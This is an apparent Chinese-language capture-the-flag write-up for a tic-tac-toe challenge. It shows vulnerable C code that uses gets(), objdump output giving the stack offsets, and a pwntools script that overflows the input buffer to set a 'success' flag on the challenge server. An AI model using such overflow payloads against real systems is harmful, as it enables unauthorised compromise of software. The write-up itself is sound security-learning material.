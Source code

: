 ```c
bool success = false;  // human wins?
char input[128] = {};  // input is large and it will be ok.
```

明示这个`input`数组有buffer overflow的漏洞了。

```c
while (!success) {
    while (true) {
        printf("Your turn. Input like (x,y), such as (0,1): ");
        gets(input);
        ...
    }
    ...
}
if (success) {
    puts("What? You win! Here is your flag:");
    flag_decode();
    puts(flag);
}
```

只要让输入溢出`input`，然后把`success`覆盖为`true`我就赢了，不多说了，反编译：

```shell
objdump -d tictactoe > tictactoe.s
```

找到初始化`success`和`input`的那两行指令：

```assem
00000000004022f4 <main>:
...
  40233b:	c6 45 ff 00          	movb   $0x0,-0x1(%rbp)
  40233f:	48 8d 95 70 ff ff ff 	lea    -0x90(%rbp),%rdx
...
```

嗯，`success`在RBP寄存器的下面1个字节，`input`从RBP下面0x90个字节开始，构造`payload`为正常输入的落子点(0,1)+填充+true的值：

```python
from pwn import remote

def always_love_the_ground():
    payload = b'(0,1)' + b'#'*(0x90-0x6) + b'\x01'
    game = remote('202.38.93.111', 10141)
    game.recvuntil('Please input your token: ')
    game.sendline(token)
    game.recvuntil('Your turn. Input like (x,y), such as (0,1): ')
    game.sendline(payload)
   
if __name__ == '__main__':
    always_love_the_ground()
```

拿到了一个flag，始终热爱大地！
